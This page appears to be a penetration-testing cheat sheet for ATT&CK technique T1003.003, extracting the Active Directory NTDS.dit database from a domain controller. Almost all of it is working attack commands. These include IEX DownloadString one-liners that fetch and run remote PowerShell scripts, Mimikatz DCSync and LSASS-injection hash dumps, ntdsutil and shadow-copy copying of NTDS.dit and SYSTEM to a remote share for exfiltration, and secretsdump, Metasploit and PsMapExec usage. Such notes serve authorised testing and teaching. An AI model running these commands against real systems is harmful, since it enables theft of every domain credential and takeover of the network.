 

# Description:

https://attack.mitre.org/techniques/T1003/003/

# NTDS

**ATT\&CK ID:** [T1003.003](https://attack.mitre.org/techniques/T1003/003/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to access or create a copy of the Active Directory domain database in order to steal credential information, as well as obtain other information about domain members such as devices, users, and access rights. By default, the NTDS file (NTDS.dit) is located in `%SystemRoot%\NTDS\Ntds.dit` of a domain controller.

In addition to looking for NTDS files on active Domain Controllers, adversaries may search for backups that contain the same or similar information.

## Techniques

### Invoke-DCsync (PentestFactory)

**URL:** [https://github.com/pentestfactory/Invoke-DCSync](https://github.com/pentestfactory/Invoke-DCSync)

Invoke-DCsync pulls Mimikatz,PowerView and ADRecon from Github into memory and then performs DCSync.

```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/pentestfactory/Invoke-DCSync/main/Invoke-DCSync.ps1")

# Execute
Invoke-DCSync
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221044.png)

### Invoke-DCSync (S3cur3Th1sSh1t)

```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-DCSync.ps1")

# Execute
Invoke-DCSync -dcfqdn DC01.security.local -username administrator
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Metasploit

```bash
use auxiliary/admin/smb/psexec_ntdsgrab
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221058.png)

`secretsdump.py` can then be used to pull hashes from the `ntds.dit` database using the SYSTEM hive file (ref: secretsdump.py further down).

### Mimikatz

```powershell
# Dump hashes for a specified users
Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /user:moe"'

# Dump hashes for all users
Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /all"'

# Dump hashes by injecting into the lsass process on the Domain Controller
Invoke-Mimikatz -command '"lsadump::lsa /inject"'
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221105.png)

### ntdsutil.exe (Native)

With access to the Domain Controller its possible to run the `ntdsutil.exe` native binary to dump SAM, SYSTEM and ntds.dit ready for exfiltration.

```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\Exfiltration' q q"

# Dump to remote share
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full \\10.10.10.10\Share\Exf' q q"
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221114.png)

Viewing the contents of `c:\Exfiltration` we see the files.

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221127.png)

Secretsdump we can be used against these files for extraction as shown in the `secretsdump.py` section below.

### Secretsdump.py

```bash
# With valid credentials
secretsdump.py security.local/moe:Password123@10.10.10.100 -just-dc-ntlm
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221138.png)

```bash
# Dump from exfiltrated ntds.dit and SYSTEM files.
sudo secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221148.png)

```bash
# Dump results from ntdsutil.exe method
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit LOCAL
```

### PsMapExec

```powershell
# As current user
PsMapExec -Targets DCs -Method SMB -Module NTDS

# As a specified user
PsMapExec -Targets DCs -Method SMB -Module NTDS -Username Administrator -Password Password123!
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221200.png)

### Volume Shadow Copy

```bash
# Create VSS snapshot of system drive
vssadmin create shadow /for=C:

# create a copy of NTDS.dit and SYSTEM then move to C:\Exfiltration
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\Exfiltration
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SYSTEM C:\Exfiltration
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221207.png)

The NTDS.dit and SYSTEM files can be exfiltrated off the system and used with a tool such as `secretsdump.py` for hash extraction.
